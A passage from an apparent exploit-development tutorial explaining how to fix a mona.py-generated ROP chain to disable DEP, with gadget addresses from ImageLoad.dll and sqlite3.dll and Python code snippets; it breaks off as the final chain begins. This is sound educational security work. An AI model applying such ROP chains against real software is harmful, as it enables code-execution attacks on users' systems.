 Okay, how can I put it in the EBX now? Again, after a lot of searching, I couldn't find anything straight forward. Searched a bit more and stumbled across this:

```
	  0x1001da09:  # ADD EBX,EAX # MOV EAX,DWORD PTR SS:[ESP+C] # INC DWORD PTR DS:[EAX] # RETN [ImageLoad.dll]
```

Cool, so it will move EAX into EBX - exactly what I wanted! But it also does couple other things afterwards that may be problematic... let's look into it further.

In simple terms, what happens next is that we are saving the address of `ESP+C` (4th argument on the stack) into `EAX` and then, we increment the value pointed to by the address stored in `EAX`. This means that for it to work correctly, we need to have a writeable location in the memory so we can `INC` the value pointed by the address in `EAX`.

Luckily, looking at the generated part of the chain, mona already found it for us!

```
	  0x61c73281,  # &Writable location [sqlite3.dll]
```

Awesome, now we just need to do a bit of shuffling around with ESP to compensate for the first gadget and we should be fine! I ended up coming up with the following snippet:

{% codeblock lang:python %}
	  # Put EAX into EBX (other unneccessary stuff comes with this gadget as well...)
	  0x1001da09,  # ADD EBX,EAX # MOV EAX,DWORD PTR SS:[ESP+C] # INC DWORD PTR DS:[EAX] # RETN [ImageLoad.dll]
	  
	  # Other instructions to execute after above gadget - mona found those already...
	  # (This is just to show that gadget above picks 4th next address to put into EAX)
	  0xDEADBEEF,
	  0xDEADBEEF,
	  0xDEADBEEF,

	  0x61c73281,  # &Writable location [sqlite3.dll]	
{% endcodeblock %}

Also, last thing to remember is that the gadgets above will mess up our EAX register, which is a problem if we decide to insert them exactly where mona suggested. Why? Because one of the first things the suggested ROP chain does is that it sets EAX to an expected value. If we corrupt it later with our gadgets, call to `VirtualAlloc` won't have right arguments and the function will fail.

To overcome this, simply change the order and do our EBX magic as a first thing in the ROP chain. Setting up EAX will follow and we won't be corrupting anything.

Putting it all together, that's the final, working ROP chain:

{% codeblock lang:python %}
# ROP chain generated with mona.py - www.corelan.be (and slightly fixed by @TheKnapsy)
# Essentially, use PUSHAD to set all parameters and call VirtualProtect() to disable DEP.
def create_rop_chain():
